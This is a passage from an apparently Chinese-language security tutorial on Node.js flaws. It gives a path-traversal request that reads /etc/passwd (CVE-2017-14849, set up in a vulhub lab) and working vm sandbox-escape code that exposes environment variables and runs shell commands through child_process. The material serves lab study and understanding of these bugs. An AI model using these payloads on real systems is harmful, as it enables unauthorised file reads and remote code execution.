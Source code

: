 运行漏洞环境：

```
cd vulhub/node/CVE-2017-14849/
docker-compose build
docker-compose up -d
```

用Burpsuite获取地址：`/static/../../../a/../../../../etc/passwd` 即可下载得到`/etc/passwd`文件

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200205154650-ab167c34-47eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200205154650-ab167c34-47eb-1.png)

具体分析可见：[Node.js CVE-2017-14849 漏洞分析](https://security.tencent.com/index.php/blog/msg/121)

## vm沙箱逃逸

vm是用来实现一个沙箱环境，可以安全的执行不受信任的代码而不会影响到主程序。但是可以通过构造语句来进行逃逸：

逃逸例子：

```
const vm = require("vm");
const env = vm.runInNewContext(`this.constructor.constructor('return this.process.env')()`);
console.log(env);
```

执行之后可以获取到主程序环境中的环境变量

上面例子的代码等价于如下代码：

```
const vm = require('vm');
const sandbox = {};
const script = new vm.Script("this.constructor.constructor('return this.process.env')()");
const context = vm.createContext(sandbox);
env = script.runInContext(context);
console.log(env);
```

创建vm环境时，首先要初始化一个对象 sandbox，这个对象就是vm中脚本执行时的全局环境context，vm 脚本中全局 this 指向的就是这个对象。

因为`this.constructor.constructor`返回的是一个`Function constructor`，所以可以利用Function对象构造一个函数并执行。(此时Function对象的上下文环境是处于主程序中的) 这里构造的函数内的语句是`return this.process.env`，结果是返回了主程序的环境变量。

配合`chile_process.exec()`就可以执行任意命令了：

```
const vm = require("vm");
const env = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').execSync('whoami').toString()`);
console.log(env);
```

最近的mongo-express RCE(CVE-2019-10758)漏洞就是配合vm沙箱逃逸来利用的。

具体分析可参考：[CVE-2019-10758:mongo-expressRCE复现分析](https://xz.aliyun.com/t/7056)

## javascript大小写特性
